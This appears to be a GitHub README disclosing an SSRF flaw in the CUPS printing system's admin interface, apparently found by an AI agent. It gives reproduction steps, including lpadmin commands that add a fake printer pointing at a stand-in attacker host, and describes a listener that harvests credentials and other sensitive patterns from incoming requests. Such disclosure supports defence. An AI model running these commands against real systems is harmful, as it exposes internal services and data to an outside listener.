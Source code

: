 <img width="1918" height="321" alt="image" src="https://github.com/user-attachments/assets/5eeea057-13d9-4502-8327-dfa64af3f8f0" />
<img width="2698" height="422" alt="image" src="https://github.com/user-attachments/assets/159525ba-b207-4db5-bf36-33c79c2adb71" />
<img width="1712" height="236" alt="image" src="https://github.com/user-attachments/assets/08af1e9a-d40b-45fa-85ce-3974f306678b" />

# https://support.apple.com/en-en/125110


## SSRF via Fake Printer Injection in CUPS
**OE19992541396** — Reported: 2024-09-08  
**Finder / Reporter:** SelfHack AI / Alperen T. Ugurlu

> **WARNING:** This PoC is intended for authorized, isolated lab environments only. Do **NOT** run this against production systems or systems you do not own or have explicit permission to test. Unauthorized testing may be illegal.

---

## How SelfHack AI Discovered This 

SelfHack AI read the history books — the PrintNightmare saga (CVE‑2021‑1675 / CVE‑2021‑34527) — and used that story as a lesson, not a recipe. It simulated those failure modes inside a safe lab, asking a simple, dangerous question: what would a spooler do if told to talk to the wrong place? The agent then crawled into the CUPS admin UI, mapped the Add‑Printer workflow, and liked the spooler executable as a promising character in the plot. With needle‑precise tests and quiet runtime tracing, it fed crafted inputs and watched the spooler binary open a socket and walk straight to an attacker‑controlled listener — headers and timing in hand, the scene was undeniable. That single, observable handoff (admin UI → spooler process → outbound HTTP) turned a theory into a confirmed SSRF finding. This was not luck: it was autonomous learning — public research taught the agent what to suspect, simulations taught it how to test, and controlled observation let it prove the crime on a macOS stage.


## TL;DR
CUPS (Common UNIX Printing System) admin web interface (`http://localhost:631/admin`) can be induced to initiate HTTP requests when a malicious or fake printer connection URI (e.g., `http://attacker:8080`) is added via the **Add Printer** flow. This allows SSRF and potential disclosure of sensitive data or access to internal services.

---

## Impact
- SSRF: server-side requests to attacker-controlled or internal endpoints.  
- Possible exposure of sensitive headers/body content.  
- Potential access to cloud metadata endpoints (e.g., `169.254.169.254`) or other internal services.  
- Enables further exploitation or lateral movement when combined with other vulnerabilities.

---

## Affected Components / Environment
- CUPS admin web interface (`/admin`) — admin privileges required to add printers.  
- Observed on macOS and Linux systems with CUPS accepting arbitrary HTTP URIs without sufficient validation.  
- PoC testing requires: CUPS host + attacker-controlled HTTP listener (Flask PoC included in this repo).

---

## Root Cause
CUPS does not adequately validate or restrict admin-supplied printer connection URIs. When a connection URI is accepted, the CUPS daemon attempts to contact that URI — enabling SSRF when the URI points to internal or attacker-controlled addresses.

---

## Reproduction (authorized lab only)

### 1) Using the CUPS Admin UI
1. Open the CUPS admin UI: `http://localhost:631/admin` (admin privileges required).  
2. Go to **Add Printer**.  
3. In the **Connection** field enter:  
http://<POC_SERVER_IP>:8080
4. Complete the printer addition process.  
5. The PoC listener (see below) should receive and log the request from the CUPS server.

### 2) Start the PoC listener
```bash
cd ssrf-cups-fake-printer
chmod +x poc.py
./poc.py // starts the Flask listener on port 8080.
```
The listener logs incoming requests and scans headers/body for basic sensitive patterns.

### 3) Example using lpadmin (Linux/macOS)
```bash
sudo lpadmin -p fake-printer -E -v "http://<POC_SERVER_IP>:8080" -m everywhere
sudo cupsenable fake-printer
sudo lpstat -p fake-printer -l
```
These commands programmatically add a printer that points at the PoC listener, causing CUPS to attempt the connection.

# PoC Listener
See poc.py — a minimal Flask-based HTTP listener included in this repository. It:

Logs request metadata (client IP, headers, body).
Searches request content and headers for simple sensitive-data patterns (email, basic "password" patterns, credit-card-like numbers, API key heuristics).
Returns a JSON summary of what it observed.

Note: The PoC is intentionally simple for demonstration and triage. Do not treat it as production monitoring code.

# Disclosure Timeline
```bash
2024-09-08 — Vulnerability reported (OE19992541396)
2024-09-30 — Reporter follow-up
2024-10-02 — PoC provided to vendor
2025-09-15 - Fix Date
```
